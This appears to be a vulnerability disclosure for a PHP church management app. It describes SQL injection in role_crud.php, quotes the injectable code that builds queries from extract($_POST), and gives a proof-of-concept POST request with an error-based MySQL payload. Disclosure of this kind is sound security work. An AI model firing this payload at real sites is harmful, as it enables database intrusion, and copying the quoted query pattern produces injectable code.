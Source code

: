 ### Vulnerability file address

`church/admin/app/role_crud.php` from line 34,The `extract($_POST);` parameter is controllable and the `$_POST['description']` is not protected from sql injection, line 37 `$stmt = $conn->prepare("UPDATE groups set name='$name',description='$description' where id='".$_POST['id']."'");` ,line 38 `$stmt->execute();` performs a SQL query, causing SQL injection

```php
if (isset($_POST['update'])) {
      
      
     extract($_POST);
     $stmt = $conn->prepare("delete  from permission_role where group_id='".$_POST['id']."'");
    $stmt->execute();
    $stmt = $conn->prepare("UPDATE groups set name='$name',description='$description' where id='".$_POST['id']."'");
    $stmt->execute();

$checkItem = $_POST["checkItem"];
//print_r($_POST);
 $a = count($checkItem);  
for($i=0;$i<$a;$i++){
 $id = $_POST['id'];
         $sql="insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')";
          $execute = $conn->query($sql);
        
       }
    
        $_SESSION['update'] = "update";
        header("location:../manage_role.php");
    }
```

### POC

```http
POST /church/admin/app/role_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

update=1&checkItem[]=1&name=123&description=' WHERE 3171=3171 AND GTID_SUBSET(CONCAT(0x716a706271,(SELECT (ELT(2547=2547,1))),0x71717a6b71),2547)-- Tavx&id=123
```

### Attack results pictures

![image-20250505210536185](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505052105223.png)